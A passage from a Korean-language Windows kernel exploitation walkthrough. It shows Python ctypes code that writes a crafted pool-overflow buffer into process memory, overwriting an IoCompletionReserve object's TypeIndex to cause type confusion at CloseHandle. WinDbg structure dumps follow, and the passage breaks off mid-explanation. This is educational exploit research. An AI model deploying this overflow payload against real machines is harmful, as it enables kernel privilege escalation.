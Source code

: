 ```
    """ Allocate the source buffer in the parent process """
    v = kernel32.VirtualAllocEx(phandle, 
            0x0, 
            evil_child_block_size, 
            MEM_RESERVE|MEM_COMMIT, 
            PAGE_EXECUTE_READWRITE)
    # 8654c580  040c0090 ef436f49 00000000 0000005c
    # 8654c590  00000000 00000000 00000001 00000001
    # 8654c5a0  00000000 0008000a
    quota   = "\x00\x00\x00\x00"   
    header  = "\x90\x00\x0c\x04\x49\x6f\x43\xef\x00\x00\x00\x00\x5c\x00\x00\x00"
    header += "\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x01\x00\x00\x00"
    header += "\x00\x00\x00\x00"
    # TypeIndex = "\x0a\x00\x08\x00"
    TypeIndex = "\x00\x00\x08\x00"
    offset    = "\x45" * (evil_child_block_size-len(header)-len(TypeIndex)-len(quota))
    overflow  = offset + quota + header + TypeIndex 
    csrc      = create_string_buffer(overflow, evil_child_block_size)
    wrote     = c_ulong(0)
    res = kernel32.WriteProcessMemory(phandle, v, 
            addressof(csrc), 
            evil_child_block_size, 
            byref(wrote))
```

`IoCompletionReserve` 오브젝트를 overwrite 할 것인데, `TypeIndex` 가 원래는 `0x0A` 인데 `0x00` 으로 overwrite 해서 Type Confusion 을 일으킨다. CloseHandle() 할 때, 찾아갈 OkayToCloseProcedure 가 엉뚱한 곳으로 튀게 된다.

아래의 `TypeIndex` 를 0 으로 overwrite 한다.

```
kd> dt nt!_OBJECT_HEADER
+0x000 PointerCount : Int4B
+0x004 HandleCount : Int4B
+0x004 NextToFree : Ptr32 Void
+0x008 Lock : _EX_PUSH_LOCK
+0x00c TypeIndex : UChar <- Index of pointer to OBJECT_TYPE structure in ObTypeIndexTable
+0x00d TraceFlags : Uchar
+0x00d DbgRefTrace : Pos 0, 1 Bit
+0x00d DbgTracePermanent : Pos 1, 1 Bit
+0x00e InfoMask : UChar
+0x00f Flags : UChar
...
```

`ObTypeIndexTable` 을 보면,

```
kd> dd nt!ObTypeIndexTable 
81a3edc0 00000000 bad0b0b0 85543768 855436a0
...
```

이제 0x85543768 을 _OBJECT_TYPE 으로 덤프해보자.

